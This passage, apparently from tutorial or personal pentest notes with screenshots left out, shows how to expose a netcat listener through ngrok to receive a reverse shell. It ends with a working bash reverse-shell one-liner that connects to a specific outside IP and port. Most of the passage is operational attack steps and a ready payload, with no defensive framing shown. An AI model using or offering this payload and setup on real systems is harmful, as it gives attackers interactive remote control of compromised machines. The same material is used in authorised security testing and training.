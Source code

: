 
or you can check official documentation on how to set it up https://dashboard.ngrok.com/get-started/setup/linux (you'll have to first create an account)

Once all is set first up start a netcat listener

![](attachments/20240722100633.png)

Startup ngrok on the same port as your listener

![](attachments/20240722100708.png)

You'll get an address and a port

![](attachments/20240722100753.png)

copy the address and ping it to get the IP

![](attachments/20240722100832.png)

Insert the IP and port into your reverse shell payload

```bash
bash -c 'exec bash -i &>/dev/tcp/18.197.239.109/14956 <&1'
```
